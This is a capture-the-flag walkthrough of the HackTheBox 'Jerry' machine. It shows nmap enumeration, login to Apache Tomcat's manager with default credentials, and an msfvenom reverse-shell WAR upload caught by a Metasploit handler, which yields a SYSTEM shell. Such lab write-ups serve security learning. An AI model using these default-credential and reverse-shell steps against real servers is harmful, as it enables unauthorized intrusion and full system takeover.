







[Easy] Jerry
Compromised on September 6, 2022Written on January 21, 2024
Jerry was my 2nd box to hack on HackTheBox. This box is very easy, possibly one of the easiest boxes on the platform. This box features a Windows environment, running a web application named Apache Tomcat which is still configured with default credentials. A quick Google search will show the username and password. After that, it's simply using msfvenom to create a malicious .war file, uploading it, and navigating to the new directory to execute the payload.
Enumeration
Nmap
Starting off with Nmap, only port 8080 is open.
nmap 10.10.10.95 -Pn -p- --min-rate 5000I quickly use Nmap to scan the version and use available scripts to pull more information about the service. It looks like this service is running Apache Tomcat 7.0.88, a web server.
nmap 10.10.10.95 -Pn -p8080 -sC -sVApache Tomcat - TCP 8080
Visiting http://10.10.10.95:8080 shows a default installation of Tomcat.
Poking around, the "Manager App" button brings a username and password prompt.
A quick Google search "tomcat default password" results in a list of possible credentials to try.
From that list, the credentials "tomcat/s3cret" works. We now have access to Tomcat Web Application Manager.
Exploiting Tomcat
The Tomcat Web Application Manager allows the user configure applications which can be visited via path. To deploy an application, the user can either specify a URL that points to a directory or .war file on the server. Uploading a .war file is also an option. I can use this to my advantage and upload a malicious .war file.
Using msfvenom, I create a malicious .war file. This file has a reverse shell payload that calls back to my machine, allowing me to remotely execute commands on the target machine. I'll give it a not-so-suspicious name: backup.war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f war -o backup.warUploading the .war file succeeds. There is a new path listed with our filename. If I navigate to http://10.10.10.95.8080/backup, the payload executes.
Before visiting my uploaded application, I'll use Metasploit to set up my listener to catch the callback from my payload.
msfconsoleuse multi/handlerset payload java/jsp_shell_reverse_tcpset lhost 10.10.14.3set lport 4444runNow that my listener is running, I visit my uploaded application at http://10.10.10.95:8080/backup which executes the payload. Within a few seconds, I get a shell on the target machine as the user NT AUTHORITY\SYSTEM. This user has the highest privileges possible, even more than Administrator.
Root and user flags are captured.
cd C:\Users\Administrator\Desktopdirmore root.txt && more user.txtFull compromise.